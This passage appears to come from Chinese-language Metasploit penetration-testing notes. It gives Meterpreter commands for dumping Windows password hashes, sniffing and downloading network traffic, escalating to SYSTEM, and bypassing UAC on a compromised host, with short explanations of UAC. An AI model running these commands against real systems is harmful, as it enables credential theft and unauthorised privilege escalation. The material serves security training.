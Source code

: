 ```bash
或

use post/windows/gather/hashdump
set session 1
Exploit
```

**sniffer**
```bash
use sniffer
sniffer_interfaces                  # 查看网卡信息
sniffer_start 1                     # 开始在序号为1的网卡上抓包
sniffer_dump 1 xpsp1.cap            # 下载抓取到的数据包
```

对抓取的包进行解包
```bash
use auxiliary/sniffer/psnuffle
set pcapfile 1.cap
run
```

---

## 权限提升

```bash
getuid      # 查看当前权限
getsystem   # 提权
getuid      # 再次查看判断是否提权成功
```

**绕过 UAC**

通常 webshell 的权限都比较低,能够执行的操作有限,没法查看重要文件、修改系统信息、抓取管理员密码和 hash、安装特殊程序等,所以我们需要获取系统更高的权限

1. 什么是 UAC？

    Microsoft 的 Windows Vista 和 Windows Server 2008 操作系统引入了一种良好的用户帐户控制架构,以防止系统范围内的意外更改,这种更改是可以预见的,并且只需要很少的操作量.它是 Windows 的一个安全功能,它支持防止对操作系统进行未经授权的修改,UAC 确保仅在管理员授权的情况下进行某些更改.如果管理员不允许更改,则不会执行这些更改,并且 Windows 系统保持不变.

2. UAC 如何运行？

    UAC 通过阻止程序执行任何涉及有关系统更改/特定任务的任务来运行.除非尝试执行这些操作的进程以管理员权限运行,否则这些操作将无法运行.如果你以管理员身份运行程序,则它将具有更多权限,因为它将被"提升权限",而不是以管理员身份运行的程序.

    因为有的用户是没有管理员权限,没有管理员权限是运行不了那些只能通过管理员权限才能操作的命令.比如修改注册表信息、创建用户、读取管理员账户密码、设置计划任务添加到开机启动项等操作.

    最直接的提权命令 : getsystem

    绕过 UAC 防护机制的前提是我们首先通过 explloit 获得目标主机的 meterprter.获得 meterpreter 会话 1 后,输入以下命令以检查是否是 system 权限.这里直接上命令.我们需要把获取到的 session 保存到后台,执行 background

```bash
background
use exploit/windows/local/bypassuac
# 将通过进程注入使用可信任发布者证书绕过 Windows UAC.它将生成关闭 UAC 标志的第二个 shell.
sessions        # 查看目前的 session
sessions -k     # 杀死所有 session
set session     # 设为你需要 exploit 的 session
```

